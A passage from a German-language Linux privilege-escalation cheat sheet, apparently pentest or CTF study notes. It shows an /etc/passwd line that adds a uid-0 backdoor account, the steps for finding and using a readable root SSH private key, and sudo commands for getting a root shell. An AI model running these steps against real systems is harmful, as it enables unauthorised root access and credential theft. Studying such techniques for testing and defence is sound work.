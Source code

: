 ```bash
<username>:<passworthash>:0:0:root:/root:/bin/bash
```

![image-20200725202002427](https://user-images.githubusercontent.com/33549572/88826352-ec849e00-d1c8-11ea-859e-2a86e9eb0004.png)

Anschließend mit **su newroot** und gesetztem Passwort einloggen.

#### Backups

Wenn solche sensiblen Dateien gut gesicher sind, könnte ein Benutzer unsichere Backups angelegt haben.. Mögliche Orte könnten sein:

```bash
/
/tmp
/var/backups
```

Auch SSH Private Keys könnten irgendwo liegen:

```bash
#Im / Verzeichnis befindet sich das .ssh Verzeichnis, welches vllt. listbar ist.
#Hier befindet sich ein readable private key (z.B. von root)
#Mittels cat kann ermittelt werden, dass es sich um ein Private Key handelt
#-----BEGIN RSA PRIVATE KEY-----
Wenn es sich um einen root Key handelt sollte geprüft werden, ob ein SSH root Login überhaupt möglich ist:
grep PermitRootLogin /etc/ssh/sshd_config
PermitRootLogin yes
#Inhalt vom Key (inkl. Kopf- und Fußzeile) auf Kali in neues File schreiben, Berechtigungen geben und Login testen
chmod 600 root_key_file
ssh -i root_key_file root@Zielsystem-IP
```

## Sudo

Exakte Definition der Rechte sind in /etc/sudoers gespeichert.

```bash
#Wenn Benutzer sudo commands ohne Passwort auflisten kann
sudo -l
```

Sofern man das Passwort des Benutzers kennt, kann folgendes bereits für PrivEsc reichen:

```bash
sudo su
#Falls sudo su nicht erlaubt ist:
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```

#### Shell Escape Sequences
